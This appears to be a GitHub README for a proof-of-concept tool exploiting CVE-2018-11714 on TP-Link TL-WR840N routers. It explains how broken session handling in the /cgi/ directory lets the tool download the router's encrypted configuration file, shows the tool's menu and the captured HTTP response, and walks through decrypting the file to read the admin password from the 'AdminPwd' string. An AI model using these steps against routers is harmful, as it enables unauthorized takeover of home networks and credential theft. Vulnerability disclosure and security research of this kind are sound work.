 <img src="img/warning.png" align="right" width="180" height="271" />

# TPLINK TL-WR840N Exploit ![](https://img.shields.io/static/v1?label=CVE%20SCORE&message=10.0&color=red)

This is Proof Of Concept based on CVE-2018-11714 which was found by *Touhid Shaikh*. This Issue is caused by broken session handling on firmware /cgi/ directory. That allow us to download the configuration file and gain access to admin configuration panel.

This issue affect firmware **0.9.1 3.16 v0001.0 Build 170608 Rel.58696n**. And it hasn't been repaired until this time **(0.9.1 4.16 v0001.0 Build 180614 Rel.40494n)**
So, I would like to ask all of you for help to contact the vendor to report this issue so they can fix it as soon as possible.

## CVE Source 
https://blog.securelayer7.net/time-to-disable-tp-link-home-wifi-router/

## Requierments
- curl, bash, dd, openssl, net-tools.

### Linux(Debian, Ubuntu, Kali, etc.)

```
sudo apt-get install curl dd openssl net-tools -y
```
## How to Use
to execute this, make sure you have cloned this repository according to the operating system you are using. is you use linux Use the ./setup script in /src/linux dir. otherwise, if you are using the windows operating system. you can do the same.
```
theace1@linux:~./setup
-----------------------------------------
-   TPLINK TL-WR840N Proof Of Concept   -
-       Based on CVE-2018-11714         -
-         Do at your own risk!          -
-----------------------------------------

[ 1 ] Manual
[ 2 ] Automatic Gateway Finder
[ 3 ] Decrypt Config File
[ x ] Exit

theace1>1
```
### Automatic IP Finder
Or if you have trouble finding the gateway, then you can use automatic mode, so the ip will be filled in automatically.
```
theace1@linux:~./setup -a
-----------------------------------------
-   TPLINK TL-WR840N Proof Of Concept   -
-       Based on CVE-2018-11714         -
-         Do at your own risk!          -
-----------------------------------------

[ 1 ] Manual
[ 2 ] Automatic Gateway Finder
[ 3 ] Decrypt Config File
[ x ] Exit

theace1>2

```

If you have done this, then you will get a encrypted router configuration code that is saved to the conf.bin. the file is saved in the same directory with the setup file. Here is the code that gets from the exploit :
```                                                                                    
HTTP/1.1 200 OK
Content-Type: application/octet-stream; charset=utf-8
Content-Length: 6256
Connection: keep-alive

+�ä�4�f�f1�^?O�vt�^GY&,���h[ڋ�lـ��.�-^Z&�d�DT^]���^Ry�^Tj�3R7B^U�5#B5m�)�=Q���\�^P�-���ĝ
+�^A^W�h�Y��ݠ��%^G����^C���^K�0&r����vj[��x��m�z^R����}֩j0���3��^Q�͎�|�^T}]^A$霤^A��#^T^Z
��^O4���^W��n��l�^X�^S�j�Z��^S^X�;>�^���<^\��L������ԧ𧣩�����^S��|��

```

## How to Decrypt
To decrypt this file easily, you can use a free software provided by [Nirsoft](https://www.nirsoft.net/utils/router_password_recovery.html) called Routerpassview. this is the problem, if you don't use the windows operating system then you can use virtual [ReactOS](https://github.com/reactos/reactos) (virtualbox, vmware, etc.) and run the routerpassview software on the virtual os. So if you are already united with your unix operating system, i was included automatic file decryption in the software based on dd and openssl.

```
-----------------------------------------
-   TPLINK TL-WR840N Proof Of Concept   -
-       Based on CVE-2018-11714         -
-         Do at your own risk!          -
-----------------------------------------

[ 1 ] Manual
[ 2 ] Automatic Gateway Finder
[ 3 ] Decrypt Config File
[ x ] Exit

dvuser>3 

Enter Your Config File Location (Blank for default): conf.bin
Decryption Complete. Now Open tmp.bin file for decrypted file.

```
Then if the decryption is succeed, you can open the decrypted file using text editor eg: nano ,vim ,atom. then search **AdminPwd** string for getting admin username and admin password. Below we can see the password string that contains the word **speeditup123** as the admin password.
***If the admin username is "admin", it will not be displayed in the decrypted file eg: ***	

```
AdminPwd^C^@Espeeditup123

```
## Author
thanks to all the friends who helped me complete this code. and thanks CVE Author for discovering this vulnerability.
- Code Author [theace1](https://github.com/theace1) [the4ce1@aol.com](mailto:the4ce.aol.com?subject=Hello%20theace%2C&body=I%20have%20an%20important%20comment%20for%20you) & CVE Author [Touhid Shaikh](https://blog.securelayer7.net/author/touhid/)  

